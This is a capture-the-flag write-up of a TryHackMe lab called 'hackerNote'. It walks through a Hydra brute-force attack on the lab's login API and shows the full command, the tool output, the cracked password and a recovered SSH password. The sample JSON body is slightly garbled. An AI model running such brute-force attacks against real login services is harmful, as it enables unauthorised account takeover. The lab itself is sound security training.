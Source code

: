 The HTTP POST request that we captured earlier tells us enough about the API that we can use Hydra to attack it.
The API is actually designed to either accept Form data, or JSON data. The frontend sends JSON data as a POST request, so we will use this. Hydra allows attacking HTTP POST requests, with the HTTP-POST module. To use this, we need:

- Request Body - JSON
  `{"username":"admin","password":"admin"12**123:))}`
- Request Path -
  `/api/user/login`
- Error message for incorrect logins -
  `"Invalid Username Or Password"`

The command for this is (replace the parts with angle brackets, you will need to escape special characters):

`hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>`

Form the hydra command to attack the login API route

`No answer needed`

How many passwords were in your wordlist?

```
bibo318@parrot:~/CTFs/tryhackme/hackerNote$ wc wordlist.txt
 180  180 1290 wordlist.txt
```

`180`

What was the user's password?

```
bibo318@parrot:~/CTFs/tryhackme/hackerNote$ hydra -l james -P wordlist.txt 10.10.24.100 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-14 22:10:51
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180 login tries (l:1/p:180), ~12 tries per task
[DATA] attacking http-post-form://10.10.24.100:80/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 132 to do in 00:03h, 16 active
[80][http-post-form] host: 10.10.24.100   login: james   password: blue7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-14 22:12:03
```

`blue7`

Login as the user to the platform

`No answer needed`

What's the user's SSH password?

```
My SSH details

So that I don't forget, my SSH password is dak4ddb37b
```
